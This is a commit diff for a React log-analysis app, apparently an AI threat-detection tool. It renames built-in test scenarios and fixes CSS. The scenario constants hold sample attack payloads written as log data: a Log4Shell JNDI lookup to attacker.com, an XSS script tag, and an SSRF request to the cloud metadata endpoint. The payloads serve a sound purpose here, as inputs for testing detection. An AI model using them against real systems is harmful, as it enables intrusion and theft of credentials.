

Before and after one commit to Sooryahaha/LogAI, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
fix: gracefully handle AI capacity limits and simplify UI names

```diff
--- a/src/components/InputPanel.jsx
+++ b/src/components/InputPanel.jsx
@@ -11,25 +11,25 @@ const INPUT_TYPES = [
 const TEST_SCENARIOS = [
   {
     id: 'xss-waf',
-    name: 'WAF Bypass (XSS)',
+    name: 'XSS Test',
     type: 'log',
     content: `<134>Mar 24 07:30:01 TWIN ASM: uri="/search?q=<script>alert(document.domain)</script>" request_status="passed" violation_rating="5" staged_sig_names="XSS script tag (URI)" method="GET" response_code="200" ip_client="193.17.57.100"`
   },
   {
     id: 'log4shell',
-    name: 'Log4Shell (RCE)',
+    name: 'Log4Shell Test',
     type: 'log',
     content: `2026-03-24 10:15:22 ERROR [App] User-Agent: \${jndi:ldap://attacker.com/Exploit}\nException in thread "main" java.lang.NullPointerException`
   },
   {
     id: 'network-scan',
-    name: 'SYN Flood',
+    name: 'Network SYN',
     type: 'network',
     content: `10.0.0.5 -> 192.168.1.100 TCP SYN\n10.0.0.5 -> 192.168.1.100 TCP SYN\n10.0.0.5 -> 192.168.1.100 TCP SYN\n10.0.0.5 -> 192.168.1.100 TCP SYN`
   },
   {
     id: 'ssrf',
-    name: 'AWS SSRF',
+    name: 'SSRF Test',
     type: 'log',
     content: `GET /webhook?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1\nHost: api.internal.corp`
   },
@@ -123,7 +123,7 @@ export default function InputPanel({ onAnalyze, isLoading }) {
       </div>
 
       {/* File Upload Zone */}
-      {(inputType === 'file') && (
+      {(inputType === 'file' || inputType === 'log') && (
         <>
           <div
             className={`file-drop-zone ${dragging ? 'dragging' : ''}`}
@@ -153,18 +153,16 @@ export default function InputPanel({ onAnalyze, isLoading }) {
       )}
 
       {/* Text Input */}
-      {inputType !== 'file' && (
       <textarea
         className="text-input"
         placeholder={placeholders[inputType]}
         value={content}
         onChange={(e) => setContent(e.target.value)}
       />
-      )}
 
       {/* Test Scenarios */}
       <div className="test-scenarios">
-        <div style={{ fontSize: '0.65rem', opacity: 0.6, marginBottom: '8px', textTransform: 'uppercase', letterSpacing: '0.1em', fontWeight: 700 }}>Inject Threat Telemetry:</div>
+        <div style={{ fontSize: '0.65rem', opacity: 0.6, marginBottom: '8px', textTransform: 'uppercase', letterSpacing: '0.1em', fontWeight: 700 }}>Test Scenarios:</div>
         <div className="scenario-grid">
           {TEST_SCENARIOS.map((s) => (
             <button
--- a/src/index.css
+++ b/src/index.css
@@ -559,9 +559,9 @@ body {
 
 @keyframes blink { 50% { opacity: 0; } }
 
-.insight-list { list-style: none; display: flex; flexDirection: column; gap: 12px; }
+.insight-list { list-style: none; display: flex; flex-direction: column; gap: 12px; }
 .insight-item {
-  display: flex; alignItems: flex-start; gap: 12px;
+  display: flex; align-items: flex-start; gap: 12px;
   padding: 14px 16px; background: #111;
   border: 1px solid var(--border-glass); border-radius: var(--radius-md);
   font-size: 0.85rem; color: #CCC;
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders). Lines whose indentation alone changed are shown as unchanged.
